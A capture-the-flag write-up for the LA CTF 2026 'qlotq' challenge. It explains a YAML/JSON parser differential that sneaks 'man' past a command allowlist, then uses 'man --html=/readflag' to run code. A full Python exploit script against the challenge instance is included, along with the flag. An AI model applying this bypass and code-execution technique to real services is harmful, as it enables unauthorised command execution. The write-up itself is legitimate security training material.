


## LA CTF 2026 - qlotq Write-up



### Step 1: The "Security" Middleware

The challenge provides a service to run `jq`, `yq`, or `xq` on user input. The source code reveals a critical architectural flaw in how requests are processed.

**The Vulnerability:**
The application uses a **Parser Differential**.

1. **Middleware (Security Check):** Decides which parser to use based on the `Content-Type` header. If we send `application/yaml`, it validates the body as YAML and checks if the command is allowed (only `jq`, `yq`, `xq`, `man`).
2. **Handler (Execution):** Decides how to parse the body based on the *endpoint* (e.g., `/json` always uses `json.Unmarshal`), ignoring the Content-Type.

This creates a discrepancy: we can trick the Middleware into validating our payload as YAML, while the Handler executes it as JSON.

### Step 2: Exploitation Strategy (Polyglot Time)

We need to construct a **Polyglot Payload** that looks "safe" to the YAML parser but "malicious" to the JSON parser.

1. **Case Sensitivity Bypass:**
* **YAML (Go library):** Is case-sensitive. It strictly respects struct tags (`yaml:"command"`). It only sees the lowercase key `command`.
* **JSON (Go library):** Is case-insensitive for struct matching (but prefers exact matches) and often lets the *last* key win.


If we send `{"command": "jq", "Command": "man"}`, the YAML parser only sees `command: jq` (Safe!). The JSON parser sees both, and `Command: man` overwrites the first one (RCE!).
2. **GTFOBins (RCE):**
We successfully injected `man`, but `man` usually runs a pager (like `less`) which is interactive. Since we are not in a TTY, `man` just dumps text.
To achieve RCE, we use the `--html` flag. This tells `man` to use a "browser" to display the manual. We set our "browser" to the flag reader binary:
**Payload Args:** `--html=/readflag`

### Step 3: The Exploit Script

Here is the solution script.

```python
import requests
import json

TARGET_URL = 'https://glotq-dcf65.instancer.lac.tf/json'

# 1. Polyglot Payload
# YAML parser reads "command": "jq" (Safe -> Checks passed)
# JSON parser reads "Command": "man" (Unsafe -> Executed)
# '--html' to force 'man' to execute /readflag as a "browser"
payload = {
    "command": "jq",
    "Command": "man",
    "args": ["--html=/readflag", "jq"]
}

headers = {
    # 2. Trick the middleware into using the YAML parser
    'Content-Type': 'application/yaml'
}

try:
    print(f"[*] Sending exploit to {TARGET_URL}...")
    response = requests.post(TARGET_URL, data=json.dumps(payload), headers=headers)
    
    if response.status_code == 200:
        data = response.json()
        if data.get('success'):
            print("\n[+] Success! Output:\n")
            print(data['output'])
        else:
            print("\n[-] Failed (App returned error):", data.get('error'))
    else:
        print(f"\n[-] HTTP Error {response.status_code}: {response.text}")

except Exception as e:
    print(f"[-] Connection failed: {e}")

```

### Step 4: Capturing the Flag

The script bypasses the middleware check using the YAML content type, then the JSON handler executes `man` which launches `/readflag`.



### Flag

`lactf{PoLY9LOt_TH3_Fl49}`